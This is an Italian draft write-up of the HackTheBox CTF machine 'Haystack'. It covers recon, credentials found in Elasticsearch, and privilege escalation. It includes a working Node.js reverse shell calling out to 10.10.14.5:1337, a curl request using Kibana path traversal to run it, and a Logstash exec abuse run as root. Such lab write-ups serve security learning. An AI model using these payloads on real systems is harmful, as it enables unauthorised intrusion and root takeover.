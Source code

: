```yaml
---
title: "Haystack"
date: 2019-07-16T15:42:05+02:00
tags:
    - "CTF"
    - "HackTheBox"
draft: true
---
```


### Scan dei servizi
* scan-nmap
![Nmap](/images/hackthebox/haystack/nmap.png)

### Web server
Vediamo cosa contiene la pagina web:
![Web](/images/hackthebox/haystack/web.png)

Il sorgente HTML non mostra nulla oltre all'immagine. Scarichiamola e vediamo se
contiene qualcosa con il comando strings:
![Strings](/images/hackthebox/haystack/strings.png)

Potrebbe essere base64, proviamo a decodificarlo:
![Base64](/images/hackthebox/haystack/base64.png)

La traduzione in italiano è:
```
L'ago nel pagliaio è "chiave"
```
Teniamo a mente questo messaggio.

### Secondo web server
Nello scan di nmap notiamo un secondo web server sulla porta 9200, vediamo cosa
contiene:
![Elasticsearch](/images/hackthebox/haystack/elasticsearch.png)

Elasticsearch è un motore di ricerca che si basa sulla libreria Lucene di
Apache. Utilizza il parametro nome `q` sulla pagina `_search` (il parametro
pretty serve ad avere il JSON formattato e indentato):
![Search](/images/hackthebox/haystack/search.png)

Provando con qualche valore di `q`, scopriamo che impostandolo ad `haystack`, ci
viene restituito questo messaggio:
![Haystack](/images/hackthebox/haystack/haystack.png)

Ricordandoci del messaggio di prima, capiamo che il "pagliaio" a cui si faceva
riferimento è proprio questo, ovverro l'insieme degli oggetti restituiti da
Elasticsearch. Proviamo ad impostare il parametro `q` con il valore `clave`:
![Clave](/images/hackthebox/haystack/clave.png)

Decodifichiamo le due stringhe:
![Base64](/images/hackthebox/haystack/base64-2.png)

Proviamo a usare i dati per connetterci tramite ssh:
![User](/images/hackthebox/haystack/user.png)

### User flag
```
04d18bc79dac1d4d48ee0a940c8eb929
```

### Privilege escalation

Scriviamo la shell in /tmp indicando l'ip:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(1337, "10.10.14.5", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

```
curl http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION\&apis=../../../../../../.../../../../tmp/shell
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
export LANG=en_US.UTF8
export TERM=xterm-256color
```

cat /etc/logstash/conf.d/*
```
cat *
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
    }
```


```bash
################################################################################
# These settings are ONLY used by $LS_HOME/bin/system-install to create a custom
# startup script for Logstash and is not used by Logstash itself. It should
# automagically use the init system (systemd, upstart, sysv, etc.) that your
# Linux distribution uses.
#
# After changing anything here, you need to re-run $LS_HOME/bin/system-install
# as root to push the changes to the init script.
################################################################################

# Override Java location
#JAVACMD=/usr/bin/java

# Set a home directory
LS_HOME=/usr/share/logstash

# logstash settings directory, the path which contains logstash.yml
LS_SETTINGS_DIR=/etc/logstash

# Arguments to pass to logstash
LS_OPTS="--path.settings ${LS_SETTINGS_DIR}"

# Arguments to pass to java
LS_JAVA_OPTS=""

# pidfiles aren't used the same way for upstart and systemd; this is for sysv users.
LS_PIDFILE=/var/run/logstash.pid

# user and group id to be invoked as
#LS_USER=logstash
#LS_GROUP=logstash
LS_USER=root
LS_GROUP=root

# Enable GC logging by uncommenting the appropriate lines in the GC logging
# section in jvm.options
LS_GC_LOG_FILE=/var/log/logstash/gc.log

# Open file limit
LS_OPEN_FILES=16384

# Nice level
LS_NICE=19

# Change these to have the init script named and described differently
# This is useful when running multiple instances of Logstash on the same
# physical box or vm
SERVICE_NAME="logstash"
SERVICE_DESCRIPTION="logstash"

# If you need to run a command or script before launching Logstash, put it
# between the lines beginning with `read` and `EOM`, and uncomment those lines.
###
read -r -d '' PRESTART << EOM
EOM
```

Scriviamo lo script in /tmp/logstash_hack
```
Ejecutar comando : touch /tmp/$(echo /root/root.txt)
```
```
cp /tmp/logstash_hack /opt/kibana
```

{{.linenum}}
